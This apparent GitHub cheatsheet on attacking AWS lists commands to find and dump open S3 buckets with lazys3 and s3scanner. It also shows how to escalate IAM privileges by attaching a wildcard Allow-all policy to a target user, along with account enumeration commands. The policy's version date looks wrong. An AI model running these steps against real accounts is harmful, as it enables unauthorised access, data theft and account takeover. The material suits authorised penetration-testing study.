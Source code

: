 ## Cloud Hacking cheatsheet

### Amazon AWS

#### Install awscli
```sh
pip3 install awscli
```

#### S3 Bucket Enumeration

##### Search for public buckets from a company using lazys3
```sh
ruby lazys3.rb [COMPANY]
```
##### Search for public buckets from a company using s3scanner
```sh
python3 ./s3scanner.py sites.txt
```

##### Dump all open buckets and log both open and closed buckets using s3scanner
```sh
python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt
```

##### Save the file listings of all open buckets to a file using s3scanner
```sh
python ./s3scanner.py --list names.txt
```

#### Escalate IAM User Privileges by Exploiting Misconfigured User Policy
```sh
vim user-policy.json
```

Insert:
```sh
{
    "Version": "2011-09-11",
    "Statement": [
        {

            "Effect": "Allow",

            "Action": "*",

            "Resource": "*"

        }
    ]
}
```

Attach the created policy (user-policy) to the target IAM user’s account:

```sh
aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json

aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy
```

#### View user policies
```sh
aws iam list-attached-user-policies --user-name [Target Username]
```

#### List users
```sh
aws iam list-users
```

#### List buckets
```sh
aws s3api list-buckets --query "Buckets[].Name"
```

#### List user policies
```sh
aws iam list-user-policies
```

#### List role policies
```sh
aws iam list-role-policies
```

#### List froup policies
```sh
aws iam list-group-policies
```

#### Create user
```sh
aws iam create-user
```



[<- Back to index](README.md)

---
## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`
